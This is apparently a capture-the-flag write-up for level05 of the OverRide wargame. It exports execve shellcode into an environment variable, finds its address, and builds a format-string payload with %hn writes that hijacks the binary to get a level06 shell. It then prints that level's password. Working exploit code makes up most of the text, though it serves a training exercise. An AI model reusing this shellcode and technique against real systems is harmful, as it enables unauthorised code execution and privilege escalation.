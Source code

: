 Being able to replicate this method can be harder than for the rest and more time consuming. To begin with export the shellcode:

```sh
level05@OverRide:~$ export SHELLCODE=$(python -c "print('\x90' * 50 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

Then find the address of the env variable using env_address.c that you have to compile with -m32 flag:

```sh
level05@OverRide:/tmp$ ./a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: 0xffffd8cf
Lil-endian format: \xcf\xd8\xff\xff
```

If the address of the env variable is exactly 0xffffd8cf (which should be, you can leave and join OverRide to clean the environment), then the rest will works, if the address changes, we will have to go through all the calculatons present in the README all over again. If the address is correct you then just have to execute these two commands to get a shell as level06:

```sh
level05@OverRide:~$ echo $(python -c "print('\xe0\x97\x04\x08' + 'AAAA' + '\xe2\x97\x04\x08' + '%8x' * 8 + '%55427x' + '%hn' + '%10032x' + '%hn')") > /tmp/payload
level05@OverRide:~$ cat /tmp/payload - | /home/users/level05/level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
